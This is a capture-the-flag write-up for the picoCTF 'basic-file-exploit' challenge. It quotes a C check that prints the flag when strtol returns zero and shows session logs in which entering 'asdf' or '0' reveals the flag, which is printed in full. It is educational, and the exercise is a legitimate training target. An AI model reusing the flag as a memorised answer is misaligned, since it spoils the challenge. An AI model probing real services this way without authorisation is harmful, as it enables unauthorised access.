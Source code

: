 ## basic-file-exploit
Tags: Binary Exploitation
AUTHOR: WILL HONG

**Description**: The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat:

``$ nc saturn.picoctf.net 55825``

The program's source code with the flag redacted can be downloaded [here](program-redacted.c).

## Solution / Explanation

Analyzing the source code provied in the challenge, the lines 143 to 147 we can identify the following code:

```
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
I'm not really an expert in C 🤷‍♂️, but it seems to tell me if ``entry_number`` is ``0``, it will print `puts()` me the flag. 

Searching the function ``strtol()`` on Google didn't give me much. Basically, this function covert the string to a long integer (?). 

So, I connected to the server and I tried to play around with the conditions: 

- If I insert "1" in the prompt, I can enter a new phrase and store it in the server, then I can press "2" and I'm able to read what I stored previously. 
- I noticed that the option "2" always returns "Read successfuly" with at least ONE stored result.

**Output:**

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Oi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
52
52

Read successful, would you like to do anything else?
```

- If I start with the option 2, the server returns me "No data yet" and I can't retrieve anything.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
Please put in a valid number
2
2
No data yet
```

- If I insert negative or big numbers, asks me for put valid numbers, but when I did that, it returns me "Maybe breaking the boundaries elsewhere will be helpful". That's the lines 188 to 191 in the source code ``program-redacted.c``

```
Please put in a valid number
1000
1000
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
-200
-200
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
```

- So I tried giving different inputs after insert one valid entry and got the flag as result. It also worked putting "0" as the input to echo the phrase in the database.

**asdf as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
asdf
asdf
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
**0 as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
### **Flag:** `picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}`

---
Daniel Reis - [@danielxreis](https://twitter.com/DanielXReis) - Developer and Cyber Security Researcher